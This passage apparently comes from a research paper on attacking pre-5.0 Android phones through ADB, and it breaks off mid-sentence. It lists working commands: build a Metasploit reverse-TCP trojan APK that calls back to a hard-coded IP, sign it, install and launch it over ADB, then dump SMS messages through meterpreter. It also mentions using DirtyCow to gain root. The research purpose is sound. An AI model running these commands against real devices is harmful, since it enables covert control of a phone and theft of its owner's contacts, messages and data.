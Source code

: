 ADB in Android versions prior to 5.0 allows anyone to install applications with arbitrary permissions. We were able to install a trojan application that collects all data including phone contacts, SMS and other personal information and sends it to Command and Control  (C\&C) server. The advantage of this approach is that if user retrieves his smartphone back we will still be able to control his phone.

In order to create a trojan application we may use Metasploit framework. It allows us to choose the payload that will connect to our server, i.e. it is a reverse TCP shell. After that we need to sign the application so the smartphone could accept it. This can be done using the following commands:

\begin{lstlisting}
$ msfvenom -p android/meterpreter/reverse_tcp  LHOST=188.130.155.36 LPORT=9999 R > evil.apk
$ keytool -genkey -v -keystore my-release-key.jks -keyalg RSA -keysize 2048 -validity 10000 -alias app
$ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.jks evil.apk app
In order to install it on the smartphone we have to execute the following commands:
$ adb install evil.apk
$ adb shell
shell@android:/ $ am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
\end{lstlisting}

After opening meterpreter session we are able to control the smartphone, for example, dump all SMS:

\begin{lstlisting}
meterpreter > dump_sms
[*] Fetching 1273 sms messages
[*] SMS messages saved to: sms_dump_20161128114216.txt
\end{lstlisting}

In case of rooted smartphone and enabled debugging we were able to make a full memory dump. If the device is not rooted, we can escalate privileges via such attacks as DirtyCow and gain root access.

In our research we tested the publicly available [android4] DirtyCow exploit to elevate shell privileges to root on a smartphone to acquire raw dumps of user data partitions. 

The DirtyCow exploit lets an attacker to perform writing to memory regions available for reading only. In order to use this vulnerability to gain root privileges, the exploit uses system /system/bin/run-as binary, which has a setuid bit set and owned by root:

